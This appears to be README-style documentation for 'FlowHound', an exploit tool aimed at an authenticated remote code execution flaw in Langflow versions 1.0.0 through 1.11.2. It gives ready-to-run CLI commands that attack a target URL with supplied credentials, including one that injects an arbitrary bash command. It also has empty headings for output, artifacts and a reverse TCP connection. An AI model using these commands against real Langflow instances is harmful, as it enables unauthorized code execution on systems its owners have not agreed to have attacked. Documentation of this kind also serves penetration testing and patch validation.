




# CVE Description
**CVE Description:** Authenticated remote code execution vulnerability that allows attackers to execute arbitrary code under the context of the running Langflow instance due to improper control of generation of code.

**Impacted Versions:** 1.0.0 through 1.11.2


# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-18729
```

**NOTE:** Due to the nature of this vulnerability, exploit failure / success is not returned in the Langflow HTTP response, making the exploit for this vulnerability a blind command injection.




## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-18729 --command "echo 'pwned' > pwned.txt"
```

**NOTE:** Due to the nature of this vulnerability, exploit failure / success is not returned in the Langflow HTTP response, making the exploit for this vulnerability a blind command injection.


### FlowHound CLI Output



### Langflow Docker Container Filesystem Artifacts



## Reverse TCP Persistent Connection

